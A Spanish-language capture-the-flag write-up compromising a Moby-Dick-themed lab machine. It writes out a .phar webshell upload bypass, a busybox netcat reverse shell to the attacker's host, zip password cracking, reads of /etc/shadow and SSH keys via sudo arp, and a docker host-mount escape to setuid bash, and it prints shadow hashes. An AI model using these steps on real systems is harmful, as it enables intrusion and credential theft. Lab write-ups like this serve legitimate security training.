

``sudo nmap 10.10.10.16 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``




``nmap 10.10.10.16 -sCV -p22,80 -oN target``




Vale, vamos a echar un vistazo a nivel de navegador:



Temática Moby-Dick.

Si miramos el código fuente, podemos ver que las imágenes salen de ``imagenes/``, pero no hay nada más interesante a priori.

Vamos a utilizar fuerza bruta de directorios con ``feroxbuster``:

``feroxbuster -u http://10.10.10.16 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html -C 400,404,500,503 -o 80 -r``



Ojo, tenemos cosas interesantes, como: ``/backup`` y ``/backup/upload.php``.

En ``/backup`` encontramos:



Como sabemos que tiene PHP, vamos a intentar subir una webshell:







Vale, está filtrando de alguna forma y no permite la subida de un php. Vamos a indagar un poquito por detrás para intentar averiguar qué está pasando.


Lo primero es interceptar la petición de subida de web.php con ``Burpsuite`` y llevarla al ``Repeater``:



Puede que los filtros se estén aplicando en uno o varios niveles, como la extensión, Content-Type, Magic Numbers...

Por comenzar con algo sencillo, vamos a probar a modificar la extensión a ``.phar``:



Ha dejado subir ``web.phar``, por lo que ni siquiera hacía falta abrir burpsuite, con modificar la extensión con un simple ``mv`` habría bastado. Ahora el asunto está dónde se ha ubicado lo que acabamos de subir.

Viendo el output de feroxbuster, en realidad tenemos bastantes pocas opciones, por lo que vamos a ir probando en las rutas que conocemos:

``http://10.10.10.16/backup/empty/web.phar?cmd=id``


Estupendo, tenemos RCE como www-data. Pues es el momento de preparar la revshell.

Confirmamos que el sistema objetivo tiene ``busybox``:


- Levantamos el listener: ``nc -nvlp 80``
- Lanzamos revshell con busybox: ``busybox nc 10.10.10.4 80 -e /bin/bash``
- Revisamos listener:



Estamos dentro de la máquina víctima como ``www-data``.

Realizamos un tratamiento de la TTY.

# Lateral Movement

Si inspeccionamos ``upload.php`` desde dentro:



La única verificación que hace es que NO tenga extensión: ``php``, ``php7`` o ``phtml``. Sabemos que fuera de estas extensiones hay muchísimas más.

Si ojeamos el ``/etc/passwd``, vemos un par de usuarios a nivel de sistema:



``calabrote`` y ``foque``. Nos los guardamos en ``users.txt``


Si listamos el contenido de ``/home``:



No podemos acceder a ninguno de los dos directorios personales de los usuarios, por lo que seguimos investigando a nivel de sistema.

En ``/var/www/html/backup``, encontramos algo interesante:



Directorio ``/var/www/html/backup/empty/.hidden``:



Si lo miramos a nivel de navegador podemos descargarlo directamente:



Una vez descargado, si intentamos descomprimirlo:

``7z e backup_id.zip``



Como tiene una contraseña que no conocemos, no podemos descomprimirlo. Por ello, se lo pasamos a ``zip2john`` para intentar averiguarla:

``zip2john backup_id.zip > hashzip``



Y ahora intentamos romperlo con ``JohnTheRipper``:

``john --wordlist=/usr/share/wordlists/rockyou.txt hashzip``



Bingo, tenemos la contraseña del comprimido: ``swordfish``.

Pues vamos a ello: ``7z e backup_id.zip``
Pass: ``swordfish``



Si listamos el contenido descomprimido:



``id_rsa_calabrote``, archivo extremadamente jugoso.

``ssh -i id_rsa_calabrote calabrote@10.10.10.16``


Hemos pivotado correctamente al usuario ``calabrote``.


# Privesc

Se prueban escaladas típicas de Linux:

``sudo -l``


Podemos hacer uso del binario ``/usr/sbin/arp`` como root sin proporcionar contraseña. Es el momento de sacar GTFOBINS de paseo: https://gtfobins.github.io/gtfobins/arp/#sudo



Vale, podemos leer cualquier archivo del sistema. Se comienza buscando la ``id_rsa`` de ``root`` y de ``foque``, pero ninguna de las dos existe, por lo que vamos a intentar romper los hashes de ``/etc/shadow``:
```
LFILE=/etc/shadow
sudo arp -v -f "$LFILE"
```




Es el momento de sacar ``unshadow``:

``root:$y$j9T$ycPw6ExAs7uKaf.s4WmVT0$Cls81gdv2a3L8lCKXnaH3EbORFsnjfx7RAndSbM1o31:19857:0:99999:7:::``
``foque:$y$j9T$1ZNMO8SSAx/mlYKHZQxGN0$uSN1A6Wcd31cwu0gPBWEsf7LDMtATI8xDsYKdbi4WY2:19855:0:99999:7:::``





``unshadow passwd shadow > unshadow``


Se intenta romper, pero no se consigue. Es más, está tardando muchísimo, lo cual, después de investigar, parece normal para el tipo de hash ``yescrypt``.

Por ello, se intenta acceder a otro tipo de archivos críticos, como el ``.bash_history`` del usuario ``root`` y del usuario ``foque``

``LFILE=/home/foque/.bash_history``
``sudo arp -v -f "$LFILE"``


Existe, podemos ver cositas. Por ejemplo, al principio se ve cómo se ha ejecutado ``cat script_net_backup.sh`` y posteriormente se le han cambiado los permisos con ``chmod 755 script_net_backup.sh``:


Si seguimos bajando entre todo el output que nos devuelve, encontramos referencia a una conexión a mysql (aunque no está corriendo de forma interna):


Si buscamos la ubicación de ``script_net_backup.sh`` ( ``find / ´name script_net_backup.sh 2>/dev/null``), no lo encuentra. Pero podemos volver a hacer uso del binario ``arp`` como sudo e ir buscándolo en aquellos directorios en los que sabemos que como ``calabrote`` no tenemos acceso. Por ejemplo, el directorio personal del usuario ``foque``:

``LFILE=/home/foque/script_net_backup.sh``
``sudo arp -v -f "$LFILE"``


Vemos que se está metiendo en ``/var/www/html/`` y  acto seguido ``tar czf /tmp/backup.tar.gz``. Pero la parte más importante viene después:
``scp -i /home/foque/.ssh/id_rsa_foque_script /tmp/backup.tar.gz 10.1.1.1@foque:backups``



¿Cóoooomo? ¿``id_rsa_foque_script``? Vamos a por ella. Repetimos con ``arp``:

``FILE=/home/foque/.ssh/id_rsa_foque_script``
``sudo arp -v -f "$LFILE"``


La única parte "mala" es que tenemos que reconstruir la id_rsa. Nos copiamos todo el output en ``id_rsa_foque`` y hacemos un tratamiento de datos para que quede con la estructura de una id_rsa funcional.

Una vez realizado el tratamiento de los datos, le otorgamos permisos de sólo lectura para el propietario (400): ``chmod 400 id_rsa_foque_done``. Y la utilizamos para conectarnos como ``foque`` en la máquina víctima:

``ssh -i id_rsa_foque_done foque@10.10.10.16``


Realizamos tratamiento de la TTY.

Podemos recoger la flag de usuario en el directorio personal del usuario foque: ``/home/foque/user.txt``



# PRIVESC

 Nuestro usuario forma parte del grupo ``docker``:


Si miramos las imágenes que hay de docker:
``docker images``


Empezamos creando un contenedor (``PWN``) basándonos en la imagen de ``alpine``, que se montará en ``/mnt/root``:

``docker run -dit -v /:/mnt/root --name PWN alpine``


Con docker podemos hacer una consola interactiva dentro del contenedor (que contiene desde la raíz del anfitrión):
``docker exec -it PWN sh``


Somos root en el contenedor, pero en ``/mnt/root`` hemos montado todo el sistema desde la raíz ``/``, por lo que podemos leer la flag de root en ``/mnt/root/root/root.txt``



Pero podemos ir incluso más lejos: podemos cambiar los permisos del binario ``/bin/bash`` original. Una vez cambiemos los permisos del binario, nos salimos del contenedor (``exit``) y si listamos los permisos del binario original:

``chmod u+s /mnt/root/bin/bash``


Tan sencillo como ejecutar la bash con privilegios.
``bash -p``


Y ahora sí, desde el sistema principal y no desde el contenedor, recogemos la flag de root en ``/root/root.txt``:
